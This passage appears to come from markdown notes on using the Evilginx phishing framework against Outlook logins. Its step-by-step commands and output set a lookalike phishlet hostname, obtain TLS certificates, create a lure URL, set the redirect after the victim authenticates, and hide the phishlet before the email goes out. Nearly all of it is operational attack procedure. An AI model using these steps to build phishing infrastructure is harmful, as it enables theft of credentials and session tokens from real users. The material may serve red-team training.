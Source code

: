 	1. Set a hostname for the phishlet (I recommend the domain of the target site + the phishing domain)

		```bash
		: phishlets hostname outlook outlook.com.phishingdomain.com
		[20:10:51] [inf] phishlet 'outlook' hostname set to: outlook.com.phishingdomain.com
		```
		
	1. Enable the phishlet
		
		```bash
		: phishlets hostname outlook outlook.com.phishingdomain.com
		: phishlets enable outlook
		[20:19:45] [inf] enabled phishlet 'outlook'
		[20:19:45] [inf] setting up certificates for phishlet 'outlook'...
		[20:19:45] [war] failed to load certificate files for phishlet 'outlook', domain 'outlook.com.phishingdomain.com': open /root/.evilginx/crt/outlook.com.phishingdomain.com/outlook.crt: no such file or directory
		[20:19:45] [inf] requesting SSL/TLS certificates from LetsEncrypt...
		[20:19:51] [+++] successfully set up SSL/TLS certificates for domains: [www.outlook.com.phishingdomain.com ]
		```

1. Deliver URL via Email, etc.
	* Note
		* Any requests to EvilGinx must include a special token, otherwise they are redirected.
	* Process
		1. **Create the lure**,
		
			```bash
			: lures create outlook

			[22:43:48] [inf] created lure with ID: 0
			```

		1. **Retrieve the URL for the phishing module**
		
			```bash
			: lures get-url 0

			https://outlook.phishindomain.com/ATzVmPIz
			```

		1. **Set the redirect URL**, specifying the page you want the victim to be redirected to after successful authentication.
		
			```bash
			: lures edit redirect_url 0 https://www.outlook.com
			[22:49:05] [inf] redirect_url = 'https://www.outlook.com'
			```

		1. **Be sure to "hide" the phishlet** (temporarily disable it) before sending the email.
		
			```bash
			: phishlets hide outlook
			[20:37:08] [inf] phishlet 'outlook' is now hidden and all requests to it will be redirected
			```
